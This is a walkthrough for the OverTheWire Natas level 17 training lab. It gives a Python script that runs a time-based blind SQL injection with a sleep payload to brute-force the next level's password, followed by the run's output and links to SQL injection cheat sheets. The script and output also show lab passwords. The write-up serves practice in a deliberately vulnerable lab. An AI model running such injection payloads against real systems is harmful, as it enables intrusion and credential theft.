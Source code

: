 `Link:` `https://overthewire.org/wargames/natas/natas17.html`
## [𝐖𝐚𝐥𝐤𝐭𝐡𝐫𝐨𝐮𝐠𝐡] ~ 𝐍𝐚𝐭𝐚𝐬 𝐋𝐞𝐯𝐞𝐥 𝟏𝟔 - 𝐋𝐞𝐯𝐞𝐥 𝟏𝟕

## 𝐆𝐢𝐯𝐞𝐧

- Username: natas17
- URL:      `http://natas17.natas.labs.overthewire.org`

## 𝐒𝐨𝐥𝐮𝐭𝐢𝐨𝐧

```
import requests 

username = "natas17"
password = "8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw"

characters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
natas18_password = ""
remaining_length = 32 - len(natas18_password)

print("brute forcing natas18 password for you! You can take a break while we crack your password.")
print()

while remaining_length:
    for char in characters:
        url ="http://natas17.natas.labs.overthewire.org/index.php?username=natas18%22+and+password+like+binary+%27" + natas18_password + char + "%25%27+and+sleep%285%29%23"
        response = requests.get(url, auth=(username, password))
#        print("char checked: ", char, " time taken: ", response.elapsed.total_seconds(), end="\r")
        if response.elapsed.total_seconds() >= 5:
            natas18_password += char
            print(f"remaining length: {remaining_length} & password: {natas18_password}")
    remaining_length = 32 - len(natas18_password)



```

```
                                                                                                                 
┌──(shreyas㉿kali)-[~/scripts]
└─$ python3 natas17.py
brute forcing natas18 password for you! You can take a break while we crack your password.

remaining length: 32 & password: x
remaining length: 31 & password: xv
remaining length: 31 & password: xvK
remaining length: 29 & password: xvKI
remaining length: 28 & password: xvKIq
remaining length: 28 & password: xvKIqD
remaining length: 26 & password: xvKIqDj
remaining length: 26 & password: xvKIqDjy
remaining length: 26 & password: xvKIqDjy4
remaining length: 23 & password: xvKIqDjy4O
remaining length: 23 & password: xvKIqDjy4OP
remaining length: 21 & password: xvKIqDjy4OPv
remaining length: 21 & password: xvKIqDjy4OPv7
remaining length: 19 & password: xvKIqDjy4OPv7w
remaining length: 19 & password: xvKIqDjy4OPv7wC
remaining length: 19 & password: xvKIqDjy4OPv7wCR
remaining length: 16 & password: xvKIqDjy4OPv7wCRg
remaining length: 16 & password: xvKIqDjy4OPv7wCRgD
remaining length: 14 & password: xvKIqDjy4OPv7wCRgDl
remaining length: 14 & password: xvKIqDjy4OPv7wCRgDlm
remaining length: 12 & password: xvKIqDjy4OPv7wCRgDlmj
remaining length: 12 & password: xvKIqDjy4OPv7wCRgDlmj0
remaining length: 10 & password: xvKIqDjy4OPv7wCRgDlmj0p
remaining length: 10 & password: xvKIqDjy4OPv7wCRgDlmj0pF
remaining length: 8 & password: xvKIqDjy4OPv7wCRgDlmj0pFs
remaining length: 8 & password: xvKIqDjy4OPv7wCRgDlmj0pFsC
remaining length: 6 & password: xvKIqDjy4OPv7wCRgDlmj0pFsCs
remaining length: 6 & password: xvKIqDjy4OPv7wCRgDlmj0pFsCsD
remaining length: 4 & password: xvKIqDjy4OPv7wCRgDlmj0pFsCsDj
remaining length: 3 & password: xvKIqDjy4OPv7wCRgDlmj0pFsCsDjh
remaining length: 2 & password: xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhd
remaining length: 2 & password: xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP


```

## 𝐋𝐞𝐚𝐫𝐧𝐢𝐧𝐠

- Walkthrough: `https://www.abatchy.com/2016/12/natas-level-17`
- Post request: `https://stackoverflow.com/questions/43252542/how-to-measure-server-response-time-for-python-requests-post-request`
- Headers in request module python: `https://stackoverflow.com/questions/6260457/using-headers-with-the-python-requests-librarys-get-method`
- Blind SQL Detection cheatsheet: `https://ansar0047.medium.com/blind-sql-injection-detection-and-exploitation-cheatsheet-17995a98fed1`
- SQL Injection Cheatsheet: `https://github.com/payloadbox/sql-injection-payload-list`
